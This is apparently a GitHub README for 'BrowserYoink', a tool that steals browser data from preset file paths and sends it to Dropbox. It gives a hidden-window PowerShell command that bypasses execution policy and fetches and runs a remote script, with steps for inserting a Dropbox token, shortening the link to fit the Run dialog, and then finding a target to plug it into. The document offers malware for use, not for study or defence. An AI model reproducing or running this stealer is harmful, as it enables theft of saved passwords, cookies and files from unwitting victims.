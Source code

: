 # BrowserYoink
Its your standard data stealer from browsers. This one specifically loops through preset paths and files. Files are sent to dropbox.

## How to use it
```
powershell -w h -ep bypass $AccessToken='';irm <link> | iex
```
 1. Place your dropbox ``AccessToken`` inside ``$AccessToken=''``
 2. Replace ``<link>`` with a **SHORTENED** link to either snatch.ps1 or your own copy. If link is not shortened it will exceed the character limit of Run dialog box and not work
 3. Find a target and plug it in

